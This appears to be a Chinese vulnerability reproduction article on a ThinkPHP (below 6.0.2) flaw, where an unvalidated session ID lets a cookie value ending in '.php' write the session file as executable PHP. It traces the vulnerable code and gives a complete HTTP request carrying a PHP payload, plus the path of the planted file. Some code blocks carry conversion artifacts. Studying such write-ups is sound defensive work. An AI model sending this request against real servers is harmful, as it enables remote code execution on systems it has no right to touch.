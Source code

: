 # Thinkphp < 6.0.2 session id未作过滤导致getshell

> 原文：[https://www.zhihuifly.com/t/topic/3172](https://www.zhihuifly.com/t/topic/3172)

# Thinkphp < 6.0.2 session id未作过滤导致getshell

## 一、漏洞简介

## 二、漏洞影响

Thinkphp < 6.0.2

## 三、复现过程

### 漏洞分析

通过diff github上面的6.0.1和6.0.2的代码可以发现，6.0.1在设置`session id`时未对值进行`ctype_alnum()`校验，从而导致可以传入任意字符。

![image](img/f7adddb9a067a21b6703f00e65eb4d94.png)

传入任意字符会有什么危害？一般来说程序可能会以session id作为文件名来创建对应的session文件，但是到目前为止这只是猜测。看一下保存session是怎么写的。

```
public function save(): void
{
    $this->clearFlashData();

```
$sessionId = $this-&gt;getId();

if (!empty($this-&gt;data)) {
    $data = $this-&gt;serialize($this-&gt;data);

    $this-&gt;handler-&gt;write($sessionId, $data);
} else {
    $this-&gt;handler-&gt;delete($sessionId);
}

$this-&gt;init = false; 
``` `}` 
```

先获取sessionid，然后作为第一个参数传入`$this->handler->write()`。`$this->handler`在构造函数中被初始化

```
public function __construct($name, SessionHandlerInterface $handler, array $serialize = null)
{
    $this->name    = $name;
    $this->handler = $handler;

```
if (!empty($serialize)) {
    $this-&gt;serialize = $serialize;
}

$this-&gt;setId(); 
``` `}` 
```

可以看出`$handler`的类型是`SessionHandlerInterface`，全局发现这是一个接口，实现这个接口的类有两个，一个是`File`，一个是`Cache`。这里以`File`类为例，我们跟进它的`write()`方法

```
public function write(string $sessID, string $sessData): bool
{
    $filename = $this->getFileName($sessID, true);
    $data     = $sessData;

```
if ($this-&gt;config['data_compress'] &amp;&amp; function_exists('gzcompress')) {
    //数据压缩
    $data = gzcompress($data, 3);
}

return $this-&gt;writeFile($filename, $data); 
``` `}` 
```

这里先通过第一个参数（也就是session id）来构造`$filename`，然后判断是否需要对session数据进行压缩，默认是不需要的，最后return时调用`$this->writeFile()`。先看看文件名是如何构造的，跟进`$this->getFileName()`

```
protected function getFileName(string $name, bool $auto = false): string
{
    if ($this->config['prefix']) {
        $name = $this->config['prefix'] . DIRECTORY_SEPARATOR . 'sess_' . $name;
    } else {
        $name = 'sess_' . $name;
    }

```
$filename = $this-&gt;config['path'] . $name;
...
return $filename; 
``` `}` 
```

这里直接将第一个参数拼接到路径的最后。跟进之前的`$this->writeFile()`方法

```
protected function writeFile($path, $content): bool
{
    return (bool) file_put_contents($path, $content, LOCK_EX);
} 
```

刺激了，这里直接保存了文件。纵观全局，由于程序未对session id进行危险字符判断，只要将session id写为类似于`xxxx.php`的格式，即可导致session保存成`.php`文件，从而getshell。

### 漏洞复现

通过全局搜索`setId`发现在`think/middleware/SessionInit.php:handle():L59`发生了调用。

```
public function handle($request, Closure $next)
{
    // Session初始化
    $varSessionId = $this->app->config->get('session.var_session_id');
    $cookieName   = $this->session->getName();

```
if ($varSessionId &amp;&amp; $request-&gt;request($varSessionId)) {
    $sessionId = $request-&gt;request($varSessionId);
} else {
    $sessionId = $request-&gt;cookie($cookieName);
}

if ($sessionId) {
    $this-&gt;session-&gt;setId($sessionId);
}
... 
``` 
```

由于`session.var_session_id`默认是空，这里的`$sessionId`的值由`$request->cookie($cookieName)`获得，`$cookieName`经过跟进后发现默认是PHPSESSID。

![image](img/eb8ceb9f32c8f3c2034b2559f2fd33ab.png)

因此我们只要设置Cookie中的PHPSESSID的值为1234567890123456789012345678.php即可。

我们在index控制器中添加如下action

```
public function testsession2(){
    $username = Request::get('name');
    Session::set('username', $username);
    return 'hi';
} 
```

用于获取name参数，并将之设置到session中。

根据控制器构造数据包

注意 session PHPSESSID= 后面要按照要求必须 32位 可以随便构造!!!

```
POST /tp6/public/index.php/index/test1 HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:72.0) Gecko/20100101 Firefox/72.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 24
Origin: http://127.0.0.1
Connection: close
Referer: http://127.0.0.1/tp6/public/index.php/index/test1
Cookie: PHPSESSID=1234567890123456789012345678.php; 
Upgrade-Insecure-Requests: 1 `key=<?php%20phpinfo();?>` 
```

访问url：`http://127.0.0.1/tp6/public/index.php/index/testsession2?name=`

![image](img/81509c2dc324614813bb7b4d540278fb.png)

访问session文件，一般位于项目根目录下的`./runtime/session/`文件夹下，也就是`/runtime/session/sess_1234567890123456789012345678.php`

![image](img/d009828d27f683e8d4680faa96be2875.png)

## 参考链接

> https://xz.aliyun.com/t/7109